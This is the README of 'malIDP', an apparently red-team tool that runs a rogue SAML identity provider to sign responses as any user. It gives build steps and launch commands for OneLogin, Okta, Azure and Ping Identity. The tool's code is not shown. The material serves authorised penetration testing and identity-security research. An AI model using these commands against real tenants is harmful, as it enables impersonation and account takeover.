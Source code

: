 # malIDP

A small (and very janky) SAML IDP which will sign SAML responses to authenticate as any user.

Information about this tool can be found in the blog post https://blog.xpnsec.com/identity-providers-redteamers.

## Building

```
python3 -m venv env
source ./env/bin/activate
pip install --upgrade pip
pip install -r requirements.txt
```

## Usage

### OneLogin

Start with:

```
./main.py --provider onelogin --cert ./example.com.crt --key ./example.com.key --issuer 'www.example.com'
```

And use the following to kick off the flow:

`https://tenant-name.onelogin.com/access/initiate?iss=ISSUER_HERE`

### Okta

Metadata should be downloaded from the added External Identity Provider.

Start with:

```
./main.py --provider okta --cert ./example.com.crt --key ./example.com.key --metadata saml_metadata.xml --issuer 'www.example.com'
```

And use the following to kick off the flow:

`https://tenant-name.okta.com/app/template_saml_2_0/k1k2l3l4l5l6l7l8l9l0/sso/saml?SAMLRequest=REQUEST_HERE`

### Azure

Metadata should be taken from `https://nexus.microsoftonline-p.com/federationmetadata/saml20/federationmetadata.xml`

Start with:

```
./main.py --provider azure --cert ./example.com.crt --key ./example.com.key --metadata federationmetadata.xml --issuer 'www.example.com'
```

And use the following to kick off the flow:

`http://localhost/init`

### Ping Identity

Metadata should be downloaded from the added External Identity Provider.

Start with:

```
./main.py --provider ping --cert ./example.com.crt --key ./example.com.key --metadata saml_metadata.xml --issuer 'www.example.com'
```

